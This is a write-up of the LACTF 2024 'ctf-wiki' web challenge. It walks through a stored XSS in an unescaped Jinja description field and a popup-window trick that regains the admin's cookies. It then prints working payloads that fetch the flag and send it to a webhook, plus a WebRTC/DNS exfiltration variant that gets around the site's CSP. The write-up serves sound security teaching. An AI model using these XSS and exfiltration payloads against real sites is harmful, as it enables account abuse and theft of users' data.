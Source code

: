 ```yaml
---
title: LACTF 2024 - ctf-wiki
date: 2024-03-01 01:58:35
tags:
---
```


# **ctf-wiki | 38 solves**
I am such a huge fan of CTF players that I decided to create a wiki with some of my favorites! Hopefully, none of them hack it. ;D

[ctf-wiki.chall.lac.tf](ctf-wiki.chall.lac.tf)

## **Description**
We are given a url, an Admin bot link, and the source code for the main page. The website is a Flask application that lets you add a decription of a CTF player. Once we fill in the fields, we get back a note created with a specific UUID that can later be referenced.
![](./image.png)


Looking at the source code, we see two main endpoints: `/edit`, and `/view`. However if when we are logged in, and we try to visit `/view`, we are instantly redirected to `/edit`. We can see this implemented in the source:

```py
@app.get("/view/<pid>")
def page(pid):
    if session.get("username") is not None and session.get("password") is not None:
        return redirect("/edit/{}".format(pid))
```

Which explicitly redirects us to the `edit` endpoint. 

Looking around the source code more, we can see where the flag is stored.
```py
@app.post("/flag")
def flag():
    adminpw = os.environ.get("ADMINPW") or "admin"
    if session.get("password") != adminpw:
        return redirect("/login?error=" + urllib.parse.quote_plus("Not the admin."))

    flag = os.environ.get("FLAG") or "lactf{test-flag}"
    return flag, 200
```

For this, we need to make a post request to `/flag`, with an account using the correct admin password. Since we have an Admin Bot for this challenge as well, its clear now that we need some sort of XSS to make the admin request this flag for us, and then we can exfiltrate it to a server we control.

And looking at the template for `view.html`, we can see exactly where this XSS is:
```html
<div class="ctfer-info">{{ description | safe }}</div>
```

Which in Jinja2 templates will not sanitize the input placed there, meaning we can put arbitrary HTML and JS in the description. 
Finally, we can see a CSP is enforced on the pages with a valid session.

```py
@app.after_request
def apply_csp(response):
    if session.get("username") is not None and session.get("password") is not None:
        response.headers[
            "Content-Security-Policy"
        ] = "default-src 'self'; img-src *; font-src https://fonts.gstatic.com https://fonts.googleapis.com; style-src 'self' https://fonts.googleapis.com"
    return response

```
The `default-src=self` will be a fallback for CSP directives that were not specified in this list, so when exfiltrating we will additionally need to take this into consideration.

## **Solution**
The base idea of the challenge will utilize the fact that if the ctf-wiki page is embedded in an iframe on an attacker controlled page, that frame will not send session cookies. Meaning if we can get the Admin to visit our page, and embed the `/view` endpoint, it will not send the admin session. However, that iframe can create a window using `window.open`, and the window it creates will send the cookies! Additionally since these are the same origin, the payload in `/view` will be able to access the window object of the cookie page, and therefore execute JS!

Now from here we can make the fetch request, but we need to somehow send this to our domain. 

### XSS on window with cookies
To get a simple POC, we can first create a note that creates a new window, then executes some JS inside that window. I also created this helper script to change the payload on my page quickly.

```py
import requests
from base64 import b64encode

cookies = {
    'session': 'eyJwYXNzd29yZCI6IjEyMzQiLCJ1c2VybmFtZSI6ImFoaCJ9.ZdLx0w.E2vT2k0HzBa_iXbhdqHgGiR-oxg',
}

payload = f"""
w = window.open("https://ctf-wiki.chall.lac.tf/");
w.alert(1);
""".strip()

data = {
    'id': 'd74c05271ee7f058e376451a59086650',
    'name': 'asdf',
    'image': 'asdf',
    'team': 'asdf',
    'specialty': 'asdf',
    'website': 'asdf',
    'description': f'<img src=x onerror="eval(atob(\'{b64encode(payload.encode()).decode()}\'))">',
}

response = requests.post(
    'https://ctf-wiki.chall.lac.tf/edit/d74c05271ee7f058e376451a59086650',
    cookies=cookies,
    data=data,
)
```

Then we can host the `/view` endpoint for this page on our own domain in an iframe.
```html
<iframe id="thing" src="https://ctf-wiki.chall.lac.tf/view/d74c05271ee7f058e376451a59086650"></iframe>
```

When we visit our site now when logged in on ctf-wiki, (after enabling popups) we can see a page opened and an alert fired.
![](./image-1.png)
Whats important is that the alert is on the new page, and additionally, we can see that the new page will be logged in.
![](./image-3.png)

Now we can try adjusting our payload to make a fetch to `/flag`, and send it to a webhook.
```js
w = window.open("https://ctf-wiki.chall.lac.tf/");
w.onload = () => {
    w.fetch('https://ctf-wiki.chall.lac.tf/flag', {method: "POST"}).then(r => r.text()).then(r => {
        fetch("https://eo4r52sc1021bl8.m.pipedream.net?flag=" + btoa(r));
    });
}
```

Note here we are using `w.fetch` to fetch the `/flag` endpoint, but just fetch to send it back to us. This is since the CSP will prevent using `w.fetch` to make a request outside the `https://ctf-wiki.chall.lac.tf/` origin, however the cookieless page does not have that CSP restriction.

Finally, we send this to the Admin Bot, get our callback, and base64 decode to get the flag!
![](./image-4.png)

---
## Flag

```
lactf{k4NT_k33P_4lL_my_F4v0r1T3_ctF3RS_S4m3_S1t3}
```


## Additional Notes
During the CTF, I honestly don't know why I didn't try this. I think I accidently tried `w.fetch` when exfiltrating (instead of just fetch), got the `connect-uri` CSP issue, and then just resorted to the option I knew on how to solve that which was using WebRTC. 

A reference for that payload is this very well written writeup for SekaiCTF GolfJail which used that same technique.
[https://blog.antoniusblock.net/posts/golfjail/](https://blog.antoniusblock.net/posts/golfjail/)

You can send the same request, but modifying the data to the request response, and collect the response in the DNS query.
This is the payload script I used during the CTF.
```py
innerpayload = """
window.onload = () => {
    fetch('https://ctf-wiki.chall.lac.tf/flag', {method: "POST"}).then(r => r.text()).then(r => {
        pc=new RTCPeerConnection({"iceServers":[{"urls":["stun:"+r.split("").map(x=>x.charCodeAt(0).toString(16)).join("").substr(0, 62)+"."+"zlamrbukykhbdngfjbuh29ofd2v5k39qo.oast.fun"]}]});
        pc.createOffer({offerToReceiveAudio:1}).then(o=>pc.setLocalDescription(o));
    })
}
""".strip()

payload = f"""
w = window.open("https://ctf-wiki.chall.lac.tf/");
w.eval(atob('{b64encode(innerpayload.encode()).decode()}'))
""".strip()
```

And you will get a response like this, which afterwards you can hex decode the subdomain to determine the flag!
![](./image-5.png)

But yeah there fetch from the cookieless CSPless page is alot more straightforward lol. In the words of the author himself:
![](./image-6.png)